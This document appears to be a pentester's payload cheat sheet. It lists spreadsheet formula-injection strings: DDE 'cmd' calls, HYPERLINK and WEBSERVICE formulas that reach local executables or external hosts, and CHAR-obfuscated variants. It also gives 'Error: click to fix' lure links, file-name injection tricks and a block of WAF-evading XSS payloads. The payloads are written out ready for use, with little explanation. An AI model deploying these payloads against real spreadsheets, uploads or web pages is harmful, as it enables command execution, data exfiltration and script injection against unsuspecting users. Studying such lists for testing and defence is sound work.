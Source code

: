 - excel special behavior
  - zero width marker: \u200B=cmd|' /C calc'!A0
  
- =HYPERLINK("file:///C:/Windows/System32/notepad.exe")
- +HYPERLINK("file:///C:/Windows/System32/notepad.exe")
- +HYPERLINK(CHAR(34)&file:///C:/Windows/System32/notepad.exe&CHAR(34))
- @HYPERLINK(CHAR(34)&"file:///C:/Windows/System32/notepad.exe"&CHAR(34))
- @HYPERLINK(\"file:///C:/Windows/System32/notepad.exe\")
- @HYPERLINK(""file:///C:/Windows/System32/notepad.exe"")
- =HYPERLINK("http://google.com", "Error: click to fix")
  - =HYPERLINK("https://google-web-pen-testing.vercel.app/", "Error: click to fix")
  - +HYPERLINK(\"http:\"&CHAR(47)&CHAR(47)&\"bing.com\"&CHAR(47)&\"payload\")
- =WEBSERVICE("http://google.com")
- =WEBSERVICE("https://google-web-pen-testing.vercel.app/")

//char obfuscation  ------------------------------------------------

//@HYPERLINK("file:///C:/Windows/System32/notepad.exe")
- @HYPERLINK(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(110)&CHAR(111)&CHAR(116)&CHAR(101)&CHAR(112)&CHAR(97)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))


//filename
=HYPERLINK("google.com", "Error: click to fix") .csv

- advanced CSV/RCE/data exfil: https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection

### File name exploits
- file name csvi: @SUM(1+1)+cmd|' C calc'!A0.jpg
  - "; alert('XSS');//.jpg


## Easy for WAFs (if testing for mitigations and not fix)

```
<h1>yorha<h1>
<u>yorhaU</u>
<svg src=x onerror=confirm(document.domain)>
<script>alert(document.domain)</script>
/><script>alert(document.domain)</script>
<iframe src="javascript:alert(document.domain);"></iframe>
<button onclick="alert(document.domain)">Click me</button>
<a href="javascript:alert(document.domain)">Click me</a>
<img src=x onerror=confirm(document.domain)>
<xss onmousemove="alert(document.domain)">test</xss>
<xss onmouseleave="alert(document.domain)">test</xss>
<a/href="#"/oncut=prompt`1`>cutme</a>
<img srcset="x, data:image/svg+xml,%3Csvg/onload=alert(1)%3E 1x">
<a href="JaVaScRiPt%3Aalert(1)">test</a>
<a href="vbscript:msgbox(1)">test</a>

<form action="javascript:alert(1)" onsubmit="javascript:prompt(2)">
  <button type="submit" onclick="prompt`2`" onclick="prompt`3`" onclick="prompt`4`">Submit</button>
</form>

<form action="J\aV\a\s\cr\i\pt\::prompt`1`;http://" action="J\aV\a\s\cR\i\pT\::prompt`1`;http://" target="">
  <button type="submit" onclick="prompt`2`" onclick="prompt`3`" onclick="prompt`4`">Submit</button>
</form>

<scr<!--comment-->ipt>prompt(1)</scr<!--comment-->ipt>
<a href="$.getScript("ja\va\sc\ript:alert(1)");">haha</a>
```
